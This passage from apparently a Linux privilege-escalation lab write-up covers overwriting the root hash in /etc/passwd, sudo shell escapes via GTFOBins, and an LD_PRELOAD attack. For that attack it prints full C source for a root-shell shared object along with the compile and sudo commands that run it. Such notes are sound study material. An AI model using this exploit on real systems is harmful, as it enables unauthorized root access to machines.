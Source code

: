 
Then pasting this hash in `/etc/passwd` file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

## 3. Shell Escape Sequences
#Sudo
Basically we encounter many program which is run by root user so for that we can use the [GTFOBins](https://gtfobins.github.io/). 

Using instructions in GTFOBins we can get the root shell. From here I got the list of program which can be used the shell escape sequences but `apache2` can't be shell escape so for that we can use the environment variable things.


## 4. Sudo Environment Variables

```C
$code for preload environment
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```


Sudo can be configured to inherit certain environment variables from the user's environment.
Check which environment variables are inherited (look for the env\_keep options): `sudo -l`
`LD\_PRELOAD and LD\_LIBRARY\_PATH` are both inherited from the user's environment. `LD\_PRELOAD` loads a shared object before any others when a program is run. `LD\_LIBRARY\_PATH` provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:
```bash
root@gr4n173:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD\_PRELOAD environment variable to the full path of the new shared object:

```bash
root@gr4n173:~$ sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run `ldd` against the apache2 program file to see which shared libraries are used by the program:

```bash
root@gr4n173:~$ ldd /usr/sbin/apache2
```
